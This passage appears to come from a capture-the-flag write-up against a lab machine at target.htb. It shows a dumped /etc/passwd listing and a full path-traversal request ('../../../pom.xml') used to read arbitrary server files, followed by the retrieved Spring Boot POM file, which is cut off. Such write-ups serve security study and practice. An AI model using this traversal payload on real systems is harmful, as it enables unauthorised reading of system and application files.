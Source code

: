 ```http
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false
```

I was able to read arbitrary files from the server. I looked for interesting files. I failed to read files in '/proc/environ', so I could not see how the application was running. But looking at the source and the web requests, I saw mentions of 'webjars' which hinted at Java. After some looking around, I found the [POM file](https://maven.apache.org/guides/introduction/introduction-to-the-pom.html).

```http
GET /show_image?img=../../../pom.xml HTTP/1.1
Host: target.htb:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://target.htb:8080/upload
Connection: close
Upgrade-Insecure-Requests: 1
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
	<groupId>com.example</groupId>
	<artifactId>WebApp</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<name>WebApp</name>
	<description>Demo project for Spring Boot</description>
	<properties>
		<java.version>11</java.version>
	</properties>
	<dependencies>
		<dependency>
  			<groupId>com.sun.activation</groupId>
  			<artifactId>javax.activation</artifactId>
```